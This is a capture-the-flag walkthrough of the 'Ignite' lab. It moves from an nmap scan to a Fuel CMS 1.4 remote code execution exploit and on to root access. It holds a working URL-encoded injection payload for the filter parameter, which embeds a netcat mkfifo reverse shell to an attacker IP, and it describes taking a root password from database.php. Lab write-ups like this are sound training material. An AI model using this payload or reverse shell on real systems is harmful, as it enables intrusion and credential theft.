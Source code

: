 # Ignite CTF

Simple CTF for brgginers

## User.txt

Boot up the machine and start nmap scanning

```
nmap -Sc -Sv -v 10.10.205.153
```
Wee can see an open 80 port HTTP server with Fuel CMS

![port.png](./images/port.png)

![fuelcms.png](./images/fuelcms.png)

Lets check the **robots.txt**. There we found interesting path

```
Disallow: /fuel/
```
We are greeted by a login form

![login.png](./images/login.png)

Lets look for available exploits for Fuel CMS 1.4

Fine, i think first version is suitable

![searchsploit.png](./images/searchsploit.png)

Ok, let's visit https://www.revshells.com/ and Put IP and PORT For reverse shell and select "nc mkfifo" and copy code to https://gchq.github.io/CyberChef/ and select encode all special characters.

![encodeshell.png](./images/encodeshell.png)

Replace the **urllib.quote(xxxx)** to our encode shell like:

from this

```
10.10.205.153/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+urllib.quote(xxxx)+"%27%29%2b%27"
```

to this

```
10.10.205.153/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20%2Di%202%3E%261%7Cnc%2010%2E8%2E157%2E18%209001%20%3E%2Ftmp%2Ff%27%29%2b%27
```

start ncat and.. we are in

![wein.png](./images/wein.png)

Fine, lets stabilize reverse shell

![stable.png](./images/stable.png)

I checked the directories for a long time and found **database.php**, there is a password of root, let's try it

Bim Bum

![rootpass.png](./images/rootpass.png)

And here are our flags))

![flags.png](./images/flags.png)








